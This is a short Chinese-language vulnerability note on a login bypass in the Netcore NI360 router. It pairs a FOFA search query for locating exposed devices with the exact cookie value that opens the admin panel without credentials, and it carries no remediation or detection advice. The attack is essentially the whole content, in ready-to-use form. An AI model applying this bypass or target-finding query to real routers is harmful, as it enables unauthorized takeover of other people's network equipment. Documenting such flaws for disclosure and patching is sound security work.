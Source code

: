 # 磊科NI360路由器登录绕过漏洞

## 漏洞描述

磊科NI360路由器存在登录绕过漏洞，通过添加cookie可直接进入后台

## 漏洞影响

> 磊科 NI360路由器

## FOFA

> title="Netcore"

## 漏洞分析

登录页面如下：

![1](resource/磊科NI360路由器/1.png)

通过添加特定的cookie，然后刷新网页即可进入后台。

```
netcore_login=guest:1
```

![2](resource/磊科NI360路由器/2.png)

![3](resource/磊科NI360路由器/3.png)